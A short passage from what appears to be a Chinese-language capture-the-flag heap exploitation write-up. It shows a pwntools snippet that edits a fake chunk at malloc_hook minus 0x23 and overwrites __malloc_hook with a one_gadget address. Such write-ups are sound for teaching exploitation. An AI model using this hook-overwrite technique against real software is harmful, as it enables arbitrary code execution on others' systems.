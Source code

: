 ![upload successful](/images/pasted-93.png)

我们再edit5号块，就是在edit fake_chunk。

由于`fake_chunk = malloc_hook - 0x23`，此处使用的fake_chunk由于已经+0x10，只填充0x13就可以填充到malloc_hook的起始位置。

```python
py = ''
py+= 'a'*0x13 + p64(one_gadget) + '\n'
edit(5,0x40,py)

```

使用的one_gadget的地址是 one_gadget --->0x7ffff7afd364 。再次执行就会发现，malloc_hook处被改成了one_gadget的值。


![upload successful](/images/pasted-94.png)


![upload successful](/images/pasted-97.png)
